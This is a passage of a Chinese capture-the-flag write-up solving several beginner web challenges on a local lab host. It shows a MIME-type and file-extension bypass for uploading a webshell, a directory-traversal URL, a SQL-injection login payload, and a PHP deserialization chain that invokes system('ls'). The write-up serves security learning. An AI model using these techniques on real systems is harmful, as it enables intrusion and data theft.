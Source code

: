 mime类型抓包修改为image/jpeg即可绕过

### 垫刀之路03: 这是一个图床

前端文件名后缀校验，将正常木马后缀改为jpg，然后抓包改回即可

### **垫刀之路04: 一个文件浏览器**

```
http://127.0.0.1:55317/?path=../../../../../../var/www/html/index.php
```

测试可以进行目录穿越读取数据，并且在index.php里看到了如果path是个目录还会把目录中的所有文件及目录返回到页面中，一个一个点进去看，在根目录下/tmp/flag找到

### 垫刀之路05: 登陆网站

![](./images/image-23.png)

抓个包设置password字段，payload可以用burpsuite自带的sql字典，也可以从网上找。

```
username=admin123&password=123' or '1'='1
#单引号闭合
```

### 垫刀之路06: pop base mini moe

```
<?php
class A {
    // 注意 private 属性的序列化哦
    private $evil;

    // 如何赋值呢
    private $a;

    function __construct()
    {
        $this->a=new B();
        $this->evil="ls";
    }

}
class B {
    private $b="system";
 
}
echo serialize(new A());

```
